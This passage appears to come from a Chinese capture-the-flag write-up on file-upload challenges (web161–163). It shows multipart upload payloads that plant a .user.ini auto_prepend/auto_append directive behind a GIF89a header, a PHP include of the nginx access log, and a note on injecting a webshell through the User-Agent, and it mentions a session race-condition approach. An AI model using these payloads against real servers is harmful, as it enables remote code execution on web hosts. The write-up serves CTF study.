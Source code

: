 ```php
<?=include"/var/lo"."g/nginx/access.lo"."g"
```

成功上传



<img src="https://i-blog.csdnimg.cn/blog_migrate/b7b5e190f5f2dfd9f6d00135eea6988d.png" alt="" style="max-height:825px; box-sizing:content-box;" />


成功了 我们在ua上写入木马即可

## web161 文件头检测

这里我们用之前的方法 上传不上了 这里我们继续测试 给他加个文件头 看看是不是检测文件头了

```cobol
Content-Disposition: form-data; name="file"; filename=".user.ini"
Content-Type: image/png
 
GIF89a
auto_prepend_file=easy.png
-----------------------------2733874569091844203618467231--
```

上传成功

所以这里其实就是检测文件头 然后我们看看上一题的方法能不能做

```cobol
 
-----------------------------2733874569091844203618467231
Content-Disposition: form-data; name="file"; filename="easy.png"
Content-Type: image/png
 
GIF89a
<?=include"/var/lo"."g/nginx/access.lo"."g"?>
-----------------------------2733874569091844203618467231--
```

ok的 所以一样日志注入

## web162-163 ssionse竞争

```cobol
auto_append_file = "php://filter/convert.base64-decode/resource=shell.abc"
```

发现上面这个方法无法实现 所以我们通过session条件竞争实现

我们直接包含一个没有和后缀的文件

```cobol
-----------------------------26453916323194629079581901902
Content-Disposition: form-data; name="file"; filename=".user.ini"
Content-Type: image/png
 
GIF89a
auto_append_file=png
-----------------------------26453916323194629079581901902--
```
